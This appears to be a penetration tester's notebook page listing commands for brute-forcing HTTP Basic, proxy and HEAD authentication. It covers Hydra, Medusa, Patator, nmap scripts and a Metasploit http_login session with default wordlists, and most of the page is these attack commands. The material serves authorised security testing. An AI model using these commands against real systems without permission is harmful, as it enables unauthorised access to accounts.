 # 04 - Brute Force

## 01 - HTTP Basic Authentication

### 1.1 - `GET` HTTP Method

#### 1.1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http[s]-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http[s]-get://<IP>:[<PORT>][/path/to/URI]
```

#### 1.1.2 - Medusa

```
$ medusa -H <IP> -U users.lst -P passwords.lst -M http [-m DIR:/path/to/URI]
```

#### 1.1.3 - Patator

```
$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'
```

#### 1.1.4 - Network Mapper

Brute force HTTP realm.

```
$ nmap -p 80,443,8000,8080,8443 --script http-brute --script-args http.useragent='<user_agent>' <IP>
```

#### 1.1.5 - Metasploit

```
msf > use auxiliary/scanner/http/http_login

msf auxiliary(scanner/http/http_login) > options

Module options (auxiliary/scanner/http/http_login):

   Name              Current Setting                                                           Required  Description
   ----              ---------------                                                           --------  -----------
   ANONYMOUS_LOGIN   false                                                                     yes       Attempt to login with a blank username and password
   AUTH_URI                                                                                    no        The URI to authenticate against (default:auto)
   BLANK_PASSWORDS   false                                                                     no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                         yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                     no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                     no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                     no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                                      no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   REQUESTTYPE       GET                                                                       no        Use HTTP-GET or HTTP-PUT for Digest-Auth, PROPFIND for WebDAV (default:GET)
   RHOSTS                                                                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             80                                                                        yes       The target port (TCP)
   SSL               false                                                                     no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                     yes       Stop guessing when a credential works for a host
   THREADS           1                                                                         yes       The number of concurrent threads (max one per host)
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/http_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                     no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                      yes       Whether to print output for all attempts
   VHOST                                                                                       no        HTTP server virtual host

msf auxiliary(scanner/http/http_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/http_default_users.txt

msf auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt

msf auxiliary(scanner/http/http_login) > set requesttype <GET | HTTP-GET | HTTP-PUT | PROPFIND>

msf auxiliary(scanner/http/http_login) > set threads 4

msf auxiliary(scanner/http/http_login) > run rhosts=<IP> rport=<PORT>
```

### 1.2 - `POST` HTTP Method

```
$ hydra -L users.txt -P passwords.txt http[s]-post <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-post://<IP>[:<PORT>][/path/to/URI]
```

## 02 - `PROXY`

### 2.1 - HTTP Method

#### 2.1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http-proxy://<IP>:[<PORT>][/path/to/URI]
```

#### 2.1.2 - Network Mapper

Brute force HTTP proxy server.

```
$ nmap -p 80,443,8000,8080,8443 --script http-proxy-brute --script-args http.useragent='<user_agent>' <IP>
```

### 2.2 - PROXY URLEnum HTTP Method

```
$ hydra -L users.lst -P passwords.lst http-proxy-urlenum://<IP>:[<PORT>][/path/to/URI]
```

## 03 - `HEAD` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http[s]-head://<IP>:[<PORT>][/path/to/URI]
```

---
## References

### Backlinks

- [[Authentication Methods|Information Gathering: HTTP Authentication Methods]]

- [[07 - Tactics & Techniques & Procedures Phases/D - Webapp Pentesting/0x03 - Bypass Webapp Security/Web Application Firewall (WAF)/Helpers/User Agents|Webapp Pentesting: User Agents]]

### Hacking Articles

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

### Ethical hacking and penetration testing

- [Ethical hacking and penetration testing: How to hack HTTP Basic and Digest Authentication](https://miloserdov.org/?p=5303)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### Manraj Bansal

- [Manraj Bansal: How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)